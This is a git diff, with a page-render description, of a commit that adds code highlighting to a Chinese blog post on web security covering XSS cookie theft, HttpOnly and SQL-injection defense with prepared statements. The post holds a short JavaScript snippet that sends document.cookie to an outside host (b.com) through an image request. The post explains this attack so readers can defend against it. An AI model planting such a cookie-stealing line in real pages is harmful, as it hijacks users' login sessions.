

Before and after one commit to linlfx/me, a Jekyll site: the page built from blog/_posts/2015-04-25-web-security-4.markdown, in a window 1280 px wide and 900 px high, scrolled down 1951 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Add code highlight

```diff
--- a/blog/_config.yml
+++ b/blog/_config.yml
@@ -19,3 +19,6 @@ comments:
 # 分页
 paginate: 10
 paginate_path: "page:num"
+
+# 代码高亮
+pygments: true
--- a/blog/_posts/2015-04-25-web-security-4.markdown
+++ b/blog/_posts/2015-04-25-web-security-4.markdown
@@ -42,10 +42,13 @@ Cookie中一般保存了当前用户的登录凭证，如果可以得到，往
 
 用户打开链接后，会加载b.js，并执行b.js中的代码。b.js中存储了以下JS代码：
 
-    var img = document.createElement("img");
-    img.src = "http://b.com/log?" + escape(document.cookie);
-    document.body.appendChild(img);
+{% highlight javascript %}
 
+var img = document.createElement("img");
+img.src = "http://b.com/log?" + escape(document.cookie);
+document.body.appendChild(img);
+
+{% endhighlight %}
 上面的代码会向b.com请求一张图片，但实际上是将当前页面的cookie发到了b.com的服务器上。这样就完成了窃取cookie的过程。
 
 __防御Cookie劫持的一个简单的方法是在Set-Cookie时加上HttpOnly标识，浏览器禁止JavaScript访问带HttpOnly属性的Cookie。__
@@ -85,10 +88,14 @@ SQL注入常常会听到，它与XSS类似，是由于用户提交的数据被
 
 防止SQL注入最好的方法是使用预编译语句，如下面所示：
 
-    String sql = "select * from user where username = ?";
-    PreparedStatement pstmt = conn.prepareStatement(sql);
-    pstmt.setString(1, username);
-    ResultSet results = pstmt.executeQuery();
+{% highlight java %}
+
+String sql = "select * from user where username = ?";
+PreparedStatement pstmt = conn.prepareStatement(sql);
+pstmt.setString(1, username);
+ResultSet results = pstmt.executeQuery();
+
+{% endhighlight %}
 
 不同语言的预编译方法不同，但基本都可以处理。
 
```
